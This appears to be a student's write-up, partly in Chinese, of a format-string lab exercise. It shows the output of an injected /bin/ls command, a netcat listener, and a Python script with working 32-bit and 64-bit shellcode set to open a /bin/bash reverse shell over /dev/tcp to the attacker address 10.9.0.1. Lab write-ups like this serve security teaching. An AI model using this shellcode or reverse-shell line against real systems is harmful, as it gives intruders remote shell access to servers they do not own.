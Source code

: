 ```
�KP�CT�KH1�1��5 | �KL�K
              �����/bin/bash*-c*/bin/ls -l; echo '===== Success! ======'                  *AAAABBBBCCCCDDDDThe target variable's value (after):  0x11223344
server-10.9.0.5 | total 832
server-10.9.0.5 | -rw------- 1 root root 319488 Mar 29 13:23 core
server-10.9.0.5 | -rwxrwxr-x 1 root root 709340 Mar 27 07:43 format
server-10.9.0.5 | -rwxrwxr-x 1 root root  17880 Mar 27 07:43 server
server-10.9.0.5 | ===== Success! ======

```

根据回显可以确定触发了/bin/ls命令

## Getting a Reverse Shell

 We are not interested in running some pre-determined commands. We want
to get a root shell on the target server, so we can type any command we want. Since we are on a remote
machine, if we simply get the server to run /bin/bash, we won’t be able to control the shell program.
Reverse shell is a typical technique to solve this problem. Section 9 provides detailed instructions on how
to run a reverse shell. Please modify the command string in your shellcode, so you can get a reverse shell
on the target server. Please include screenshots and explanation in your lab report.

供给端ip为inet 10.9.0.1

攻击端运行`nc -l 9090 -nv`等待reverse shell

更改py脚本

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
 #  "/bin/ls -l; echo '===== Success! ======'                  *"
    "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *" 
 "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
```